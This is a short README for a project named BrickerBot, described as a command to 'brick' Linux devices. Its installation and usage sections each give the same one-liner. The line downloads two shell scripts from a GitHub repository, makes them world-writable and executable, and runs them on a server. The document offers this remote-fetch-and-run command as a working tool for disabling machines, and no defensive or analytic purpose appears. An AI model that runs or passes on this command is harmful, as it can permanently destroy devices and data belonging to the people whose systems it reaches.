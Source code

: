 BrickerBot
=====

Command for brick linux devices

## Installation

    $ wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/char_for_brick.bash; wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash char_for_brick.bash || bash bricker.sh

## How to use

It's simple to use. You just need to download and execute they scripts on the server.

### Example:
    $ wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/char_for_brick.bash; wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash char_for_brick.bash || bash bricker.sh
    

## License 

> Copyright (C) 2021 - 2022 
> Rawbypa | Sully (rawbypa@protonmail.com)
